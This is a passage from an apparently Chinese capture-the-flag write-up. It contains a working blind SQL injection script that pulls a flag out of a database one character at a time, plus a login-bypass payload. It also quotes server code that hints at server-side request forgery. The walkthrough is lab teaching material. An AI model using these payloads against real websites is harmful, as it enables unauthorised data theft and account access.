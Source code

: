 ```php
for i in range(1,100):
    min=32
    max=128
    while 1:
        mid=min+(max-min)//2
        if min==mid:
            flag+=chr(mid)
            print(flag)
            if chr(mid)=='}':
                exit()
            break

        #payload="' or if(ascii(substr((select/**/group_concat(table_name)from(information_schema.tables)where(table_schema=database())),{},1))<{},1,0)#".format(i,mid)
        #payload="' or if(ascii(substr((select/**/group_concat(column_name)from(information_schema.columns)where(table_name='flagyoudontknow76')),{},1))<{},1,0)#".format(i,mid)
        payload="' or if(ascii(substr((select/**/group_concat(flagisherebutyouneverknow118)from(flagyoudontknow76)),{},1))<{},1,0)#".format(i,mid)

        data={
           'user[username]':payload,
           'nickname':random.randint(0,999999)
        }

        r=session.post(url=url1,data=data).text
        time.sleep(0.5)
            
        if  'u529f'  in r  :
            max=mid
        else:
            min=mid

```



## 497-ssrf_file



同上，登录进后台先：

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

看渲染模板：`$ch=curl_init($value); $result=curl_exec($ch);`

```php
# /index.php?action=../render/render_class

public static function checkImage($templateContent,$arg=array()){
    foreach ($arg as $key => $value) {

        if(stripos($templateContent, '{{img:'.$key.'}}')){
            $encode='';
            if(file_exists(__DIR__.'/../cache/'.md5($value))){
                $encode=file_get_contents(__DIR__.'/../cache/'.md5($value));
            }else{
                $ch=curl_init($value);
                curl_setopt($ch, CURLOPT_HEADER, 0);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
                $result=curl_exec($ch);
```